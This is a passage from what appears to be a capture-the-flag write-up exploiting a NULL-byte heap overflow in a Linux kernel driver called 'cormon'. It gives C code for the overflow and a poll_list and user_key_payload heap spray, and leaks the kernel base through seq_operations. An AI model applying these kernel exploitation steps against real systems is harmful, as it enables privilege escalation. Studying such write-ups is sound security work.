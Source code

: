 Good. Each structures seems to be allocated in intended size of caches for now.
Under this situation, let's invoke the NULL-byte overflow.

```overflow.c
void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0;
}
```
![search for NULL-overflowed poll_list](https://hackmd.io/_uploads/H1vxWQixj.png)

Hmm, it seems that a slab object in next to vulnerable heap object is NULL-byte overflowed, but apparently this object is not `struct poll_list` (cuz `.len` member is invalid). After try and errors, things went to good when I changed the number of spray of `struct poll_list` as `0x10 -> 0x10-2`. When you do kheap spray, this kind of small adjustment is important, I believe:

![actually, poll_list is NULL-byte overflowed!](https://hackmd.io/_uploads/S1uqr7sxo.png)

Actually, `struct poll_list` is allocated in next to the buffer allocated in `cormon_proc_write()`, and first byte of `poll_list.next` is NULL-byte overflowed. FYI, author's writeup told me that you should control which CPU core to use when spraying by `sched_setaffinity()`. Good point, actually. Slab cache is per-CPU. Genius.
Here, it is important that the addr(`0xffff888007617500`) pointed to by overwritten `next` pointer must be `user_key_payload`, which we prepared in kmalloc-32 in the first step. And the first member `user_key_payload.rcu` must be NULL. Let me check...:

![user_key_payload is pointed to by poll_list.next](https://hackmd.io/_uploads/HkhwL7slo.png)

Perfect. After that, we just wait for seconds to timeout `poll` syscall, and `poll_list` are `kfree`ed in order from the head. `user_key_payload` is also freed. So we just allocate new structure as you like on this key. The structure should be in `kmalloc-32`, and should contains kptr. This time, we use `seq_operations`:

```seq_operations.c
  // Check all keys to leak kbase via `seq_operations`
  char keybuf[0x100] = {0};
  ulong leaked = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memset(keybuf, 0, 0x100);
    if(keyctl_read(keys[ix], keybuf, 0x100) < 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      leaked = *(ulong*)keybuf;
    }
  }
  if (leaked == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked: 0x%lx\n", leaked);
```
